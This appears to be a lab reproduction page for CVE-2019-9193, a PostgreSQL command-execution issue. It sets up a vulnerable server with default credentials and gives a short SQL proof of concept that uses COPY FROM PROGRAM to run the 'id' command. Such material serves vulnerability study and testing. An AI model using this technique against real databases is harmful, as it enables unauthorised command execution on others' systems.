

PostgreSQL Arbitrary Command Execution with Admin Privileges (CVE-2019-9193)¶
PostgreSQL is a powerful open-source relational database system. A "feature" exists in versions 9.3 through 11 that allows administrators or users with "COPY TO/FROM PROGRAM" privileges to execute arbitrary commands on the system.
References:
Environment Setup¶
Execute the following command to start a vulnerable PostgreSQL 10.7 server:
docker compose up -d
The server will start and listen on the default PostgreSQL port 5432, with default credentials postgres/postgres.
Vulnerability Reproduction¶
First, connect to the PostgreSQL server and execute the following proof of concept:
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
The FROM PROGRAM statement will execute the id command and save the results in the cmd_exec table:
